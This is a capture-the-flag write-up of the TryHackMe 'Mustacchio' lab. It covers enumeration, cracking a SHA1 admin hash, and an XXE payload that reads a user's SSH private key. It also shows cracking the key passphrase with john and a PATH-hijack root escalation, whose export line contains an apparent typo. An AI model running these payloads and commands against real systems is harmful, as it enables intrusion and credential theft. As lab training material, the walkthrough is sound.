 ```yaml
---
title: TryHackMe - Mustacchio
layout: post
categories:
- TryHackMe
tag:
- xxe,
- privesc,
- enumeraton
image: "/assets/img/mustacchio.png"
image_alt: mustacchio
---
```


Easy boot2root Machine. Let's start.

<br>

## 1. Mustacchio 

Deploy and compromise the machine!

<br>

### 1.1 User Flag?

_Hint: Check the source of the page._

Let's do a `nmap` scan first.

```
$ nmap -sSV -p- 10.10.80.114
```

![nmap](/assets/img/tryhackme/mustacchio/nmap.png)

We found three open ports. These are `22/tcp SSH, 80/tcp HTTP, and 8765/tcp HTTP`.

First, let's visit the website running on port 80/tcp and see what we can find.
Five different pages appear. These are home, about, gallery, blog, and contact. 

![home](/assets/img/tryhackme/mustacchio/home.png)

I am checking the links and source pages that can be visited on the website, but I could not find anything remarkable.
 
I decided to do a directory scan with Gobuster. But first, let's visit the website running on 8765/tcp port.

![admin](/assets/img/tryhackme/mustacchio/admin.png)

We found an admin panel, it will help us. Anyway, let's go back to port 80/tcp and do a gobuster scan.

![gobuster](/assets/img/tryhackme/mustacchio/gobuster.png)

The custom directory looks interesting. When we go inside, we find a file called `user.bak`, which is interesting.

![userbak](/assets/img/tryhackme/mustacchio/userbak.png)

Let's see what's in it.

![admincode](/assets/img/tryhackme/mustacchio/admincode.png)

**`admin : 1868e36a6d2b17d4c2745f1659433a54d4bc5f4b`**

I guess this is the login information to the admin panel but the password seems to be encrypted. 
I check with the hash-identifier. 

![codeid](/assets/img/tryhackme/mustacchio/codeid.png)

Most likely admin's password is encrypted using `SHA1`.

You can decrypt online from any website by searching for "SHA1 decrypt" in the browser. I used the following website. [Here](https://md5decrypt.net/en/Sha1/#answer)

![decode](/assets/img/tryhackme/mustacchio/decode.png)

We found the password.

**`admin : b*****19`**

Now let's go to the admin panel and log in.
We logged in.

![comment](/assets/img/tryhackme/mustacchio/comment.png)

I've tried a few command injections into the area that comes up, but it just seems like a gimmick.

I'm checking the source of the page and we're getting some important information here. 
- We explore the /auth/dontforget.bak file. 

- ![dontforget](/assets/img/tryhackme/mustacchio/dontforget.png)

- We discover that Barry is now able to log into SSH.

- ![barryssh](/assets/img/tryhackme/mustacchio/barryssh.png) 

Let's first check the dontforget.bak file.

Download directly from here [http://10.10.80.114:8765/auth/dontforget.bak](http://10.10.80.114:8765/auth/dontforget.bak). 

Something like this welcomes us.

![dontforgetbakin](/assets/img/tryhackme/mustacchio/dontforgetbakin.png)

But there is one important thing about this code, it's not a complete waste of time. 
This code is an XML code, if we copy this code and paste it into the comment section in the admin panel, we get the following result.

![joe](/assets/img/tryhackme/mustacchio/joe.png)

I mean, we need to write xml code in this comment section. So I am trying to do command injection using xml.

I tried the commands [here](https://github.com/payloadbox/xxe-injection-payload-list) but no result.

But I realized something, I was constantly getting this result.

![empty](/assets/img/tryhackme/mustacchio/empty.png)

Here I understood that I should use the tags in dontforget.bak.

First I decided to give it a try with the code below.

![try](/assets/img/tryhackme/mustacchio/try.png)

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE replace [<!ENTITY example "XML Injection"> ]>
<comment>
  <name>Joe Hamd</name>
  <author>&example;</author>
<com>Test paragraph</com>
</comment>
```

![tryout](/assets/img/tryhackme/mustacchio/tryout.png)

It worked as you can see. Now we can access the information inside the system. 

We got the message that Barry can now log in to ssh, if we go to Barry's directory and get the rsa key, we can log in too. 

I run the following code in the admin panel to get the id_rsa key.

![commentinssh](/assets/img/tryhackme/mustacchio/commentinssh.png)

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE replace [<!ENTITY example SYSTEM 'file:////home/barry/.ssh/id_rsa'>]>
<comment>
  <name>Joe Hamd</name>
  <author>Joe</author>
<com>&example;</com>
</comment>
```

![outrsa](/assets/img/tryhackme/mustacchio/outrsa.png)

Yes, we have reached the RSA key, now we need to copy and edit this key. I tried without editing and it doesn't work :D.
Make sure there are no spaces at the end of the lines. Each one should be a separate line.
It should look like this when you edit it. 

![edit](/assets/img/tryhackme/mustacchio/edit.png)

Now we need to crack this id_rsa for barry's ssh password.

```
$ ssh2john id_rsa > id_rsa.hash
$ john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
```

![crack](/assets/img/tryhackme/mustacchio/crack.png)

**`barry : u*******s`**

Now we can log in ssh.

```
$ chmod 600 id_rsa
$ ssh -i id_rsa barry@10.10.80.114
```

![barryin](/assets/img/tryhackme/mustacchio/barryin.png)

And we are inside.

Now we can access the user flag.

![user-flag](/assets/img/tryhackme/mustacchio/user-flag.png)

<br>

### 1.2 Root Flag?

_Hint: SUID?_

We proceed with the clue that the question gives us. First, we will run the following code.

```
$ find / -type f -perm -04000 -ls 2>/dev/null
``` 

![suid](/assets/img/tryhackme/mustacchio/suid.png)

I couldn't find anything remarkable and started navigating the system. 

I discovered the joe directory next to barry, and if you remember a file like `live_log` in it, we also saw this file as a result of the code we wrote above.

![ls](/assets/img/tryhackme/mustacchio/ls.png)

I'm looking at the strings content of this log file and we find something remarkable here. The tail command was used.

```
$strings live_log
```

![strings](/assets/img/tryhackme/mustacchio/strings.png)

I've been doing some research on how to escalate using this and I find that it's as follows.

![privesc](/assets/img/tryhackme/mustacchio/privesc.png)

```
$ echo "/bin/sh" > tail
$ chmod 777 tail
$ export PATH=/tmp.$PATH
$ cd /home/joe/
$ ./live_log
```

And we are inside. To be frank, I don't fully understand the logic of raising authority, I'll go over it a little later.
But now we can get to root.txt.

![root-flag](/assets/img/tryhackme/mustacchio/root-flag.png)

<br>

---

<br>

It was such a fun CTF. I hope you learned something and had fun too. But that’s it for now till next time take care.

<br>
